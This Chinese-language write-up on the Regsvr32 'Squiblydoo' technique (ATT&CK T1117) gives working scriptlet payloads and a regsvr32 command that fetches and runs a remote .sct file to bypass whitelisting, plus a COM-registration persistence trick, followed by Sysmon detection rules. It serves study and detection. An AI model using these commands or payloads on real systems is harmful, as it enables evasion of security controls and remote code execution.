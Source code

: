 # T1117-Regsvr32

Regsvr32.exe是一个命令行程序，用于在Windows系统上注册和取消注册对象链接，嵌入控件和动态链接库。Regsvr32.exe可用于执行任意二进制文件。

攻击者可以利用此功能来代理攻击代码的执行，以避免触发安全工具，这些工具可能无法监视regsvr32.exe进程的执行和加载的模块，因为Windows使用regsvr32.exe进行正常操作时会出现白名单或误报。Regsvr32.exe也是Microsoft签名的二进制文件。

Regsvr32.exe还可用于专门绕过进程白名单，使用功能加载COM scriptlet以在用户权限下执行DLL。由于regsvr32.exe具有网络功能，因此可以调用远程脚本来执行代码。

## 命令执行

```
读取远程payload执行
regsvr32 /s /n /u /i:<url/aa.sct> scrobj.dll
读取本地payload执行
regsvr32 /s /n /u /i:<aa.sct> scrobj.dll
```

### 技术复现

1. 建立aaa.sct文件放至HTTP服务

   ```
   File: aa.sct
   <?XML version="1.0"?>
   <scriptlet>
   <registration
     progid="TESTING"
     classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
     <script language="JScript">
       <![CDATA[
         var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
       ]]>
   </script>
   </registration>
   </scriptlet>
   
   root@kali:~/L/sct# python -m SimpleHTTPServer 
   Serving HTTP on 0.0.0.0 port 8000 ...
   
   ```

### 结果验证

![1568433329432](.\T1117-Regsvr32.assets\1568433329432.png)



## 后门驻留

该技术用户后门的方式与远程命令执行类似，在调用远程脚本去掉选项 /n /u 让COM对象注册到注册表中，需要用脚本执行COM对象才能执行（这种方式还需要其他的机制触发脚本运行才能稳定控制，有点鸡肋），所以通过COM劫持替换常被调用的COM对象来实现驻留更为有效，COM劫持本篇不讨论，留在后门的文章详说。

### 技术复现

1. 创建COM对象的sct文件

   ```
   <?XML version="1.0"?>
   <scriptlet>
   <registration
     progid="Test"
     classid="{20002222-0000-0000-0000-000000000002}"
   >
   </registration>
   <public>
     <method name="exec">
     </method>
   </public>
   <script language="JScript">
     <![CDATA[
       function exec(){
         new ActiveXObject('WScript.Shell').Run('calc.exe');
       }
     ]]>
   </script>
   </scriptlet>
   ```

2. 创建执行脚本调用COM对象

   ```
   var test = new ActiveXObject("Test");
   test.exec()
   ```

### 结果验证

![1568438662858](.\T1117-Regsvr32.assets\1568438662858.png)

此时在注册表可以看见注册的COM对象

![1568438770222](.\T1117-Regsvr32.assets\1568438770222.png)

![1568438841369](.\T1117-Regsvr32.assets\1568438841369.png)

## 相关知识

1. Regsvr32的参数含义

   Regsvr32 [/s] [/n] [/i[:cmdline]] dllname
   　　/u 卸载安装的控件，卸载服务器注册
   　　/s 注册成功后不显示操作成功信息框
   　　/i 调用DllInstall函数并把可选参数[cmdline]传给它，当使用/u时用来卸载DLL
   　　/n 不调用DllRegisterServer，该参数必须和/i一起使用

   当使用 /u 时，命令不会在注册表注册COM对象，只会执行远程的scriptlet

2. srcobj.dll起到什么作用

   Scrobj.dll用于注册和取消注册COM对象，这是触发此操作所需的。[详情见此](https://security.stackexchange.com/questions/183021/how-does-this-applocker-bypass-work-exactly-squibblydoo)


## 威胁取证

**命令行特征：**（级别：高）

```
# 不管是本地还是远程调用，都必须要关键字regsvr32，\i，scrobj.dll
eventid = 1 AND cmdline regex regsvr32\s+.*\i:.*?\s+scrobj.dll
```

![1568551600493](./T1117-Regsvr32.assets/1568551600493.png)



**加载项特征：**（级别：高）

```
# 在执行scriptlet是会使用Jscript或者vbscript脚本，这样系统就会调用脚本程序
eventid = 7 AND ImageLoaded contains ('jscript' OR 'vbscript')
```

![1568551788061](./T1117-Regsvr32.assets/1568551788061.png)



验证vbscript作为payload确认会调用

```
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="vbscript">
    <![CDATA[
      set foo = createobject("WScript.Shell")
      foo.Run("cmd.exe /c calc.exe")
    ]]>
</script>
</registration>
</scriptlet>
```

![1568553045254](./T1117-Regsvr32.assets/1568553045254.png)



进程特征：（级别：中）

```
# 当regsvr32作为父进程创建其他程序时是一种可疑行为
ParentImage contians 'regsvr32.exe'
```

![1568553894651](./T1117-Regsvr32.assets/1568553894651.png)



## 参考

https://attack.mitre.org/techniques/T1117/

https://www.carbonblack.com/2016/04/28/threat-advisory-squiblydoo-continues-trend-of-attackers-using-native-os-tools-to-live-off-the-land/

https://security.stackexchange.com/questions/183021/how-does-this-applocker-bypass-work-exactly-squibblydoo

